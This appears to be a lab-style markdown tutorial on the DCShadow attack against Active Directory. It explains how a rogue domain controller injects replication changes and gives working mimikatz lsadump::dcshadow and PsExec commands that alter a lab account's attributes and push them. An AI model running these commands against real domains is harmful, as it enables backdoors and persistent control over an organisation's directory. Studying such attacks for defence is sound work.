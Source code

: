 # DCShadow Attack Overview

## What is DCShadow?

DCShadow is a type of attack that allows an attacker to create a rogue domain controller (DC) in an Active Directory (AD) environment without actually compromising a legitimate DC. This attack can be used to manipulate the replication process and inject malicious changes into the AD database, giving the attacker control over the entire AD environment.

### How DCShadow Works

The DCShadow attack works by using the same replication protocols and techniques that legitimate domain controllers use to communicate with each other. An attacker with administrative privileges can use this technique to simulate the behavior of a DC and force replication of malicious changes to other DCs in the environment. This can enable the attacker to create backdoors or establish persistence in the AD environment, allowing them to maintain control even if their original access is removed.

It simulates the behavior of a Domain Controller (using protocols like RPC used only by DC) to inject its own data, bypassing most common security controls including your SIEM. It shares some similarities with the DCSync attack (already present in the `lsadump` module of mimikatz).

## Execution Steps

### Run as System
```powershell
PsExec.exe -i -s cmd
```

### Push Attribute Change
```powershell
mimikatz.exe
```
![image](https://github.com/user-attachments/assets/ba70f94b-f451-4f8e-895b-2d7861b5619a)

### Change Value of Bad Password for Student5 Account
We are going to change the bad password count for `student5` account from 9999 to 3333.
```powershell
lsadump::dcshadow /object:student5 /attribute:badpwdcount /value:3333
lsadump::dcshadow /object:student5 /attribute:PwdLastset /value:0x1D4B32777877508
```

### Open Command Prompt as Administrator
```powershell
mimikatz.exe
lsadump::dcshadow /push
```
![image](https://github.com/user-attachments/assets/7b08f58e-a94e-4222-a379-fb69db5b1744)

![image](https://github.com/user-attachments/assets/86f79c3f-ddbf-47b4-a2ad-30174923ca1a)

This approach enables the attacker to create backdoors or establish persistence in the AD environment, giving them control even if their original access is removed.
